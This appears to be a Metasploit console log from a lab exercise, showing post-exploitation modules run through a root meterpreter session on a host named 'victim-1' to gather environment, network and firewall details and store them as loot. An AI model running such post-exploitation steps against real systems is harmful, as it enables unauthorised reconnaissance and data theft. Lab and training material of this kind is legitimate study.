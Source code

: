 ```
msf5 post(linux/gather/enum_configs) > use post/multi/gather/env
msf5 post(multi/gather/env) > show options

Module options (post/multi/gather/env):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(multi/gather/env) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  1         shell cmd/unix                                                      192.111.31.2:33589 -> 192.111.31.3:445 (192.111.31.3)
  8         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.111.31.3  192.111.31.2:4433 -> 192.111.31.3:60722 (192.111.31.3)

msf5 post(multi/gather/env) > set SESSION 8
SESSION => 8
msf5 post(multi/gather/env) > run

[*] Debian 8.11 (Linux 5.4.0-125-generic)
[*] Post module execution completed
```

```
msf5 post(multi/gather/env) > search enum_network

Matching Modules
================

   #  Name                            Disclosure Date  Rank    Check  Description
   -  ----                            ---------------  ----    -----  -----------
   1  post/linux/gather/enum_network                   normal  No     Linux Gather Network Information
msf5 post(multi/gather/env) > use post/linux/gather/enum_network
msf5 post(linux/gather/enum_network) > show options

Module options (post/linux/gather/enum_network):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/enum_network) > set SESSION 8
SESSION => 8
msf5 post(linux/gather/enum_network) > run

[*] Running module against 192.111.31.3
[*] Module running as root
[+] Info:
[+]     Debian GNU/Linux 8  
[+]     Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 GNU/Linux
[*] Collecting data...
[-] Failed to open file: /etc/ssh/sshd_config: core_channel_open: Operation failed: 1
[-] Unable to get data for Network config
[-] Unable to get data for Route table
[+] Firewall config stored in /root/.msf4/loot/20230310152853_Linux_PE_192.111.31.3_linux.enum.netwo_061534.txt
```